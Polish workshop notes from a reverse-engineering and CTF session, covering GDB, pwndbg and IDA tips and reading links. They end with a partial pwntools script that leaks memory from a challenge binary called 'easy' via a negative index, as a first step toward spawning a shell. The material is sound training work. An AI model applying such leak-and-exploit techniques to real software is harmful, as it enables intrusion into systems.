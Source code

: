 
Przerobione zadania:
* http://re.disconnect3d.pl/logmein - proste zadanie z RE, które wymaga tak naprawdę zrobienia XORa dwóch stringów
* http://re.disconnect3d.pl/easy - zadanie z PWN, nieskończone - **do dokończenia w domu** -- cel - uruchomienie shella (docelowo zadanie było hostowane na zdalnym serwerze) - tutaj warto jest [początkowo wyłaczyć ASLR](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)

Komendy GDB z skrótami/wyjaśnieniem:
* r - run
* c - continue
* ni - next instruction
* si - step instruction
* p - print - tu można podać rejestr np. `print $eax` albo użyć wyrażenia, czy też castu z C - `print *((int*)$eax+3)`
* i r - info registers 
* info frame - wyświetlanie informacji o ramce stosu
* info functions [name] - wyświetlanie listy funkcji (lub filtrowanie gdy podamy nazwę)
* b <funkcja/adres> - stawianie breakpointa, gdy podajemy adres, należy poprzedzić go znakiem *
* jmp <funkcja/adres> - skok do danej funkcji/adresu (zmienia RIP/EIP)
* x - "egzaminowanie" pamięci, wykorzystywane wraz z formatem - np. `x/16xw <adres>` wyświetli 16 elementów dwubajtowych (specyfikator `w` - niefortunnie `word` w gdb to cztery bajty) z podanego adresu zapisanych heksadecymalnie (x) 

Komendy pwndbg:
* vmmap - wyświetlanie mapy pamięci (korzysta z `cat /proc/<pid>/maps`)
* search - szukanie w pamięci

Losowe hinty do Ida Pro/Hopper:
* Typy wyświetlane czasem przez Idę: BYTE (1B), WORD (2B), DWORD (4B), QWORD (8B)
* Klawisz 'n' na symbolu - refaktoryzacja jego nazwy
* Klawisz 'x' na symbolu - szukanie xrefów
* Klawisz 'y' na symbolu - zmiana jego typu (dla zdekompilowanego kodu)

## Rzeczy do zrobienia/przeczytania przed kolejnymi warsztatami:
* Wykłady z http://re.disconnect3d.pl/
* http://blog.exploitlab.net/2011/12/tutorials-to-refresh-your-fundamental.html
* https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/
* Dokończenie zadania `easy`, które robiliśmy - w razie problemów, piszcie - poniżej kod, który napisaliśmy na warsztatach

```python
from pwn import *

p = process('./easy')
print p.proc.pid
pause()

print p.recvuntil('Choose: ')

def leak(index):
    p.sendline('3')
    p.recvuntil('view:')
    p.sendline(str(index))
    p.recvuntil('Product ID: ')
    
    leak_id = p.recvuntil(', Product Code: ')[:-16]
    leak_code = p.recvuntil('There are ').replace('There are ','')
    leak = leak_code + p32(int(leak_id) & 0xffffffff)
    
    print "[+]Leak: "+ leak.encode('hex')
    return leak

leak(-3)

def add_product(prod_id, prod_code):
    p.sendline('1') # add record
    print p.recvuntil('Enter product ID: ')
    p.sendline(prod_id)
    print p.recvuntil('Enter product code: ')
    p.sendline(prod_code)

for i in range(7):
    add_product(str(i), chr(ord('a')+i)*8)

add_product('XxXx', 'abcdqwer')
p.interactive()
```
